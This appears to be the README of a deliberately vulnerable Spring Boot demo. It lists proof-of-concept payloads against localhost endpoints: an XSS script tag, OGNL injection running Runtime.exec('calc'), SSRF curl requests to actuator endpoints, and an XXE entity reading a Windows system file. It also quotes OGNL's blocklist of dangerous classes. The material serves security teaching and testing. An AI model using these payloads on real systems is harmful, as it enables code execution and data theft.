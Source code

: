 # SpringBoot-Vulnerable-Demo-2024
## XSS

[http://127.0.0.1:8080/greeting?name=<script>alert('xss')</script>](http://127.0.0.1:8080/greeting?name=%3Cscript%3Ealert(%27xss%27)%3C/script%3E)

[view-source:http://127.0.0.1:8080/greeting?name=<script>alert('xss')</script>](view-source:http://127.0.0.1:8080/greeting?name=%3Cscript%3Ealert(%27xss%27)%3C/script%3E)

[http://127.0.0.1:8080/greeting-vulnerable?name=<script>alert('xss')</script>](http://127.0.0.1:8080/greeting-vulnerable?name=%3Cscript%3Ealert(%27xss%27)%3C/script%3E)

[view-source:http://127.0.0.1:8080/greeting-vulnerable?name=<script>alert('xss')</script>](view-source:http://127.0.0.1:8080/greeting-vulnerable?name=%3Cscript%3Ealert(%27xss%27)%3C/script%3E)


## Ongl
- [https://codeql.github.com/codeql-query-help/java/java-ognl-injection/](https://codeql.github.com/codeql-query-help/java/java-ognl-injection/)'
- [https://xz.aliyun.com/t/10482](https://xz.aliyun.com/t/10482)
- 
@java.lang.Runtime@getRuntime().exec("calc")

http://127.0.0.1:8080/ongl-vulnerable

http://127.0.0.1:8080/ongl-vulnerable?name=%22aaaa%22.length
http://127.0.0.1:8080/ongl-vulnerable?name=@java.lang.Math@abs(-111)


http://127.0.0.1:8080/ongl-vulnerable?name=@java.lang.Runtime@getRuntime().exec(%22calc%22)


https://github.com/orphan-oss/ognl/blob/main/src/main/java/ognl/OgnlRuntime.java
```java
    public static Object invokeMethod(Object target, Method method, Object[] argsArray)
            throws InvocationTargetException, IllegalAccessException {
        boolean syncInvoke;
        boolean checkPermission;
        Boolean methodAccessCacheValue;
        Boolean methodPermCacheValue;

        if (_useStricterInvocation) {
            final Class<?> methodDeclaringClass = method.getDeclaringClass();  // Note: synchronized(method) call below will already NPE, so no null check.
            if ((AO_SETACCESSIBLE_REF != null && AO_SETACCESSIBLE_REF.equals(method)) ||
                    (AO_SETACCESSIBLE_ARR_REF != null && AO_SETACCESSIBLE_ARR_REF.equals(method)) ||
                    (SYS_EXIT_REF != null && SYS_EXIT_REF.equals(method)) ||
                    (SYS_CONSOLE_REF != null && SYS_CONSOLE_REF.equals(method)) ||
                    AccessibleObjectHandler.class.isAssignableFrom(methodDeclaringClass) ||
                    ClassResolver.class.isAssignableFrom(methodDeclaringClass) ||
                    MethodAccessor.class.isAssignableFrom(methodDeclaringClass) ||
                    MemberAccess.class.isAssignableFrom(methodDeclaringClass) ||
                    OgnlContext.class.isAssignableFrom(methodDeclaringClass) ||
                    Runtime.class.isAssignableFrom(methodDeclaringClass) ||
                    ClassLoader.class.isAssignableFrom(methodDeclaringClass) ||
                    ProcessBuilder.class.isAssignableFrom(methodDeclaringClass) ||
                    AccessibleObjectHandlerJDK9Plus.unsafeOrDescendant(methodDeclaringClass)) {
                // Prevent calls to some specific methods, as well as all methods of certain classes/interfaces
                //   for which no (apparent) legitimate use cases exist for their usage within OGNL invokeMethod().
                throw new IllegalAccessException("Method [" + method + "] cannot be called from within OGNL invokeMethod() " +
                        "under stricter invocation mode.");
            }
        }

```

## SSRF

curl -X POST http://127.0.0.1:8080/ssrf-vulnerable -d "hostname=http://127.0.0.1:8080/actuator/metrics"

curl -X POST http://127.0.0.1:8080/ssrf -d "hostname=http://127.0.0.1:8080/actuator/metrics"

actuator
http://127.0.0.1:8080/actuator/metrics
http://127.0.0.1:8080/actuator/beans


## XXE

<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///C:\\Windows\\system.ini'>]><root>&test;</root>

http://127.0.0.1:8080/xml-vulnerable?xml=%3Ctest%3EWorld%3C/test%3E

http://127.0.0.1:8080/xml-vulnerable?xml=%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20test%20SYSTEM%20%27file%3A%2F%2F%2FC%3A%5C%5CWindows%5C%5Csystem%2Eini%27%3E%5D%3E%3Croot%3E%26test%3B%3C%2Froot%3E